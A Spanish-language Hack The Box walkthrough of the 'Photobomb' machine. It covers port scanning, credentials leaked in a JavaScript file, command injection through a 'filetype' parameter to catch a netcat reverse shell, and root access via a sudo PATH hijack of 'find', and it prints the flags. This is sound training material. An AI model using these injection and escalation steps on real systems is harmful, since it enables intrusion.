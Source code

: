 ```yaml
---
layout: single
title: Photobomb - Hack The Box
excerpt: "Photobomb es una maquina de dificultad facil donde en el propio codigo de la pagina web hay un archivo JS donde obtenemos el nombre de usuario y su contraseña para acceder a una ruta en la cual no teniamos acceso despues abusamos del parametro filetype para obtener una reverse shell y para la escalada de privilegios vamos a usar un path traverse para obtener una shell como root"
date: 2023-02-18
classes: wide
header:
  teaser: /assets/images/htb-writeup-photobomb/iconphoto.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - infosec
tags:  
  - FileType
  - Sudoers privilege
---
```


![](/assets/images/htb-writeup-photobomb/iconphoto.png)

## PortScan

```bash
❯ nmap -sCV -p22,80 10.10.11.182 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-18 18:08 CST
Nmap scan report for photobomb.htb (10.10.11.182)
Host is up (0.28s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.88 seconds
```

Vemos que hay un subdominio hay que agregarlo al `/etc/hosts`

```bash
❯ whatweb http://10.10.11.182
http://10.10.11.182 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], RedirectLocation[http://photobomb.htb/], Title[302 Found], nginx[1.18.0]
http://photobomb.htb/ [200 OK] Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.182], Script, Title[Photobomb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

```bash
❯ cat /etc/hosts | grep photobomb
10.10.11.182 photobomb.htb
```

Funciona

```
❯ ping -c 1 photobomb.htb
PING photobomb.htb (10.10.11.182) 56(84) bytes of data.
64 bytes from photobomb.htb (10.10.11.182): icmp_seq=1 ttl=63 time=1261 ms

--- photobomb.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 1260.996/1260.996/1260.996/0.000 ms
```

Vamos a inspeccionar la pagina web que corre en el puerto 80

![](/assets/images/htb-writeup-photobomb/Web1.png)

Vemos que si damos click en `click here` nos muestra este panel de autenticacion

![](/assets/images/htb-writeup-photobomb/Web2.png)

No tenemos credenciales por el momento asi que podemos ver el codigo fuente

![](/assets/images/htb-writeup-photobomb/Web3.png)

Vemos que hay un archivo `.js` vamos a ver que es lo que tiene

```bash
❯ curl http://photobomb.htb/photobomb.js
```
```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Nos esta dando un enlace si lo copiamos y pegamos vemos que nos autentica automaticamente y nos muestra esta web

![](/assets/images/htb-writeup-photobomb/Web4.png)

En la parte de del boton rojo vemos que podemos descargar una foto vamos a interceptar con `burpsuite` la peticion

Al interceptar nos muestra esto

![](/assets/images/htb-writeup-photobomb/inter.png)

En la parte de `filetype` vemos que hay es donde esta definiendo la extencion del archivo que queremos asi que podemos tratar de concatenar un comando y directamente vamos a enviarnos una reverse shell 

![](/assets/images/htb-writeup-photobomb/code.png)

<https://www.revshells.com/>

Una vez puesto hay vamos a ponernos en escucha en el puerto `443` para recibir la `shell`

![](/assets/images/htb-writeup-photobomb/listo.png)

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ahora damos a `forward` para recibir la shell

![](/assets/images/htb-writeup-photobomb/forward.png)

Funciona

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.113] from (UNKNOWN) [10.10.11.182] 45146
bash: cannot set terminal process group (715): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 
```

Para poder hacer `ctrl+c` podemos hacer

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset xterm
ENTER
```

Podemos ver la primer flag

```bash
wizard@photobomb:~$ cat user.txt 
857825188e86ff89aee311f10870e0ec
wizard@photobomb:~$ 
```

Nada interesante

```bash
wizard@photobomb:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/at
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/umount
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
wizard@photobomb:/$ 
```

## Escalada de Privilegios

Si hacemos un `sudo -l` podemos ejecutar este `script` y setear variables de enterno

```bash
wizard@photobomb:/$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
wizard@photobomb:/$ 
```

Vamos a ver el script y esta usuando el comando `find` que encontramos en la ultima linea lo que esta haciendo es que

```
Esta buscando todos los archivos con extensión ".jpg" en el directorio "source_images" y sus subdirectorios, y cambia el propietario y grupo de cada archivo encontrado a "root:root".
```

```bash
wizard@photobomb:/$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
wizard@photobomb:/$ 
```

`Tenemos la capacidad de modificar variables como el 'path' para utilizar un comando 'find' personalizado. Además, si ejecutamos el comando 'find' con privilegios de administrador, el 'find' se ejecutará con permisos de root.`


```bash
wizard@photobomb:~$ echo bash > find
wizard@photobomb:~$ chmod +x find
```

Ahora somos root

```
wizard@photobomb:~$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# whoami
root
root@photobomb:/home/wizard/photobomb# cd /root
root@photobomb:~# cat root.txt 
bc2ba4ec7d130530e08a60ce6b034fde
root@photobomb:~# 
```
